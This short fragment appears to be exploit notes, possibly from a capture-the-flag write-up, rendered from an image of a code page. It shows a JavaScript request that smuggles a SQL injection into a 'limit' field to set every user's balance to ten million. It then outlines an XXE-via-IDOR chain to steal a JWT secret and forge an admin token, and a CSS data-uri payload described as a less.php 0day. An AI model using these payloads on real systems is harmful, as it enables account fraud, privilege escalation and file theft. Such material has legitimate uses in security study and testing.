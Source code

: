 ```
await fetch("http://localhost/api/orders/search", {
  "headers": {
    "content-type": "application/json",
  },
  "body": JSON.stringify({
      "query": "",
      "status": "all",
      "sort": "id_asc",
      "page": 1,
      "limit": `100; UPDATE users SET balance = 10000000.00; --`,
  }),
  "method": "POST",
}).then(res => res.text());
```
- XXE via IDOR to exfiltrate JWT secret and forge admin token
- 0day in less.php library, first create a import dir with system and after generate this css :
```
.test { 
    content: data-uri('id'); 
}
```
